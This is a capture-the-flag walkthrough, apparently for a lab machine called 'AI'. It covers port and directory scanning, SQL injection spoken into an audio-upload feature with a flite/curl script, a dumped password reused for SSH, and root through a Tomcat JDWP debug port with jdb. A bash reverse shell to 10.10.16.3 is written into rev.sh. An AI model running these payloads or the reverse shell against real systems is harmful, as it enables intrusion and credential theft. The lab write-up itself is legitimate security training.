


# AI
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.163 --min-rate 10000                                                                                         
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 19:19 BST
Nmap scan report for 10.10.10.163 (10.10.10.163)
Host is up (0.18s latency).
Not shown: 65443 filtered tcp ports (no-response), 90 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 24.11 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.163 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 19:29 BST
Nmap scan report for 10.10.10.163 (10.10.10.163)
Host is up (0.77s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:16:f4:32:eb:46:ca:37:04:d2:a5:aa:74:ed:ab:fc (RSA)
|   256 78:29:78:d9:f5:43:d1:cf:a0:03:55:b1:da:9e:51:b6 (ECDSA)
|_  256 85:2e:7d:66:30:a6:6e:30:04:82:c1:ae:ba:a4:99:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello AI!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.03 seconds
                                                                 
```

- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.163/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 50 -k 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.163/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.163/images/]
/contact.php          (Status: 200) [Size: 37371]
/index.php            (Status: 200) [Size: 37347]
/about.php            (Status: 200) [Size: 37503]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.10.163/uploads/]
/db.php               (Status: 200) [Size: 0]
/intelligence.php     (Status: 200) [Size: 38674]
/ai.php               (Status: 200) [Size: 37569]

```

## Foothold
- `uploads` and `images` return `403`
  - `about.php` returns description


- `intelligence.php` and `ai.php` look interesting


- So we can upload a `wav` which will be interpreted by their `AI` api
  - I can use https://www.text2speech.org/ to generate voice queries
  - I set voice to `US Male` according to a note in `intelligence.php`


- I received no results for my query
  - Since we have a query, let's send special chars to see if something happens
  - I'll generate a `wav` with `open single quote` speech
  - And I receive a `SQL` error



- The potential attack path is to generate `sql` injection speech
  - We can now script the process using `flite`
  - `apt install flite`
```
└─$ flite -w speech.wav -voice rms -t "Hello"
```
```
└─$ curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@speech.wav;type=audio/x-wav' -F 'submit=Process It!'
<!DOCTYPE html>
...
```
```
└─$ curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@speech.wav;type=audio/x-wav' -F 'submit=Process It!' | grep 'Query result :' | sed 's/<br \/>/\n/g' | sed 's/<h3>//g'
Our understanding of your input is : hello
Query result :
```

- Let's make a script
```
#!/bin/bash

flite -w speech.wav -voice rms -t "$1"
resp=$(curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@speech.wav;type=audio/x-wav' -F 'submit=Process It!' | grep 'Query result :' | sed 's/<br \/>/\n/g' | sed 's/<h3>//g')
echo -e "$resp"
```
```
└─$ ./ai.sh "hello"
Our understanding of your input is : hello
Query result : 
```

- Now let's try to perform `sqli`
  - We saw a hint from `intelligence.php` about `Comment Database` which will result in `-- -`
  - We can perform basic injection and dump version
```
└─$ ./ai.sh "open single quote space union select version open parenthesis close parenthesis comment database"
Our understanding of your input is : '  union select version()-- -
Query result : 5.7.27-0ubuntu0.18.04.1
```

- It's really difficult to generate complicated `sqli` speech requests, so we should stick to basic queries
  - We could assume that there's a `users` database
  - If we try to dump it, we have a hit
```
└─$ ./ai.sh "open single quote space union select space username space from users comment database"                       
Our understanding of your input is : '  union select   username   from users -- -
Query result : alexa
```
```
└─$ ./ai.sh "open single quote space union select space password space from users comment database"
Our understanding of your input is : '  union select   password   from users -- -
Query result : H,Sq9t6}a<)?q93_
```

- We can `ssh`
```
└─$ sshpass -p 'H,Sq9t6}a<)?q93_' ssh alexa@10.10.10.163
Warning: Permanently added '10.10.10.163' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Oct 26 15:07:09 UTC 2023

  System load:  0.03              Processes:           145
  Usage of /:   72.5% of 4.79GB   Users logged in:     0
  Memory usage: 29%               IP address for eth0: 10.10.10.163
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

63 packages can be updated.
15 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Oct 24 15:04:38 2019 from 192.168.0.104
alexa@AI:~$
```

## Root
- Nothing interesting in `sudo` and other directories
  - But `netstat` shows other ports 
```
alexa@AI:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 127.0.0.1:8009          :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:58072           0.0.0.0:*                           -                   
udp6       0      0 :::5353                 :::*                                -                   
udp6       0      0 :::42345                :::*                                -    
```

- `3306` is database
  - `8000` and `8080` is `tomcat` running as `root`
```
alexa@AI:~$ ps auxww
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  0.4 225172  8740 ?        Ss   Oct25   0:06 /sbin/init auto automatic-ubiquity noprompt
...
root      55849  0.0  0.0      0     0 ?        I    15:09   0:00 [kworker/0:1-eve]
root      56126  3.2  5.1 3108796 102548 ?      Sl   15:18   0:03 /usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n -Dignore.endorsed.dirs= -classpath /opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar -Dcatalina.base=/opt/apache-tomcat-9.0.27 -Dcatalina.home=/opt/apache-tomcat-9.0.27 -Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp org.apache.catalina.startup.Bootstrap start
```

- `-agentlib:jdwp=transport=dt_socket,address=localhost:8000` option indicates that `debug` mode is enabled and on port `8000`
  - We can configure port forwarding
    - `sshpass -p 'H,Sq9t6}a<)?q93_' ssh alexa@10.10.10.163 -L 8000:localhost:8000`
  - We can use [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol
  - First I create `rev.sh` on target box
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.3/6666 0>&1
```

- Then we execute [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
  - But it my case it didn't work
```
└─$ python2.7 ./jdwp-shellifier.py -t 127.0.0.1 -p 8000 --cmd '/tmp/rev.sh'
[+] Targeting '127.0.0.1:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=aa0
[+] Found Runtime.getRuntime(): id=7fea50023ae0
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[-] Exception: unpack requires a string argument of length 11
```

- So let's do it manually
  - https://dl.packetstormsecurity.net/1307-exploits/JDWP-exploitation.txt
  - https://notes.qazeer.io/l7/methodology-20
```
└─$ jdb -attach 8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 
```
```
> classes
** classes list **
sun.reflect.annotation.AnnotationParser$$Lambda$97.677120200
...
java.lang.Runtime
...
```
```
> methods java.lang.Runtime
** methods list **
...
java.lang.Runtime exec(java.lang.String[])
...
```

- Then we trace methods
```
> trace go methods
Method entered: > "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.net.NioBlockingSelector$BlockPoller.events(), line=280 bci=0
Method entered: "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=93 bci=0
Method entered: "thread=ajp-nio-127.0.0.1-8009-BlockPoller", org.apache.tomcat.util.net.NioBlockingSelector$BlockPoller.events(), line=280 bci=0
Method entered: "thread=ajp-nio-127.0.0.1-8009-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=93 bci=0
Method entered: "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.net.NioBlockingSelector$BlockPoller.events(), line=280 bci=0
Method entered: "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=93 bci=0
Method exited: return value = 0, "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=97 bci=22
...
```

- We then set a breakpoint on method: `stop in org.apache.tomcat.util.collections.SynchronizedQueue.size()`
  - Then when we hit a breakpoint, send `print new java.lang.Runtime().exec("/tmp/rev.sh")`
```
└─$ jdb -attach 8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> stop in org.apache.tomcat.util.collections.SynchronizedQueue.size()
Set breakpoint org.apache.tomcat.util.collections.SynchronizedQueue.size()
> 
Breakpoint hit: "thread=ajp-nio-127.0.0.1-8009-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=93 bci=0

ajp-nio-127.0.0.1-8009-BlockPoller[1] print new java.lang.Runtime().exec("/tmp/rev.sh")
```

